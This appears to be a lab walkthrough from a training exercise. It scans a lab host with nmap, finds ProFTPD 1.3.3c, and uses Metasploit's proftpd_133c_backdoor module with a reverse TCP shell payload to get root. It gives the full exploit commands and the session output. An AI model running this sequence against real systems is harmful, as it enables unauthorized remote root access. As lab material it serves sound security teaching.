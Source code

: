 # Steps for lab 2

## Step 1 - Search for exploits on target

```bash
nmap nmap -sC -sV 10.5.0.254
```

```markdown
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
80/tcp open  http    Apache httpd 2.4.10 ((Debian) PHP/5.5.29)
|_http-server-header: Apache/2.4.10 (Debian) PHP/5.5.29
|_http-title: exploit.co.il : Articles : Tutorials : Reviews : Videos
```

## Step 2 - Use msfconsole

```bash
msfconsole
```

### Step 2.1

```bash
search ProFTPD
use 5
set RHOSTS 10.5.0.254
run
```

```markdown
[-] 10.5.0.254:21 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
```

### Step 2.2

```bash
ifconfig
```

```markdown
eth-lab: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.5.0.1  netmask 255.255.255.0  broadcast 0.0.0.0
```

### Step 2.3

```bash
show payloads
set payload 5
set LHOST 10.5.0.1
run
```

```markdown
[*] Started reverse TCP handler on 10.5.0.1:4444
[*] 10.5.0.254:21 - Sending Backdoor Command
[*] Command shell session 1 opened (10.5.0.1:4444 -> 10.5.1.11:46394) at 2023-03-27 03:40:12 +0000
```

### Step 3 - Now you are in the target machine

```bash
whoami
```

```markdown
root
```

```bash
ls
```

```markdown
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
proftpd-1.3.3c
root
run
sbin
srv
sys
tmp
usr
var
```

### Terminal output

- [tmux session 1](tmux1.txt)

- [tmux session 2](tmux2.txt)
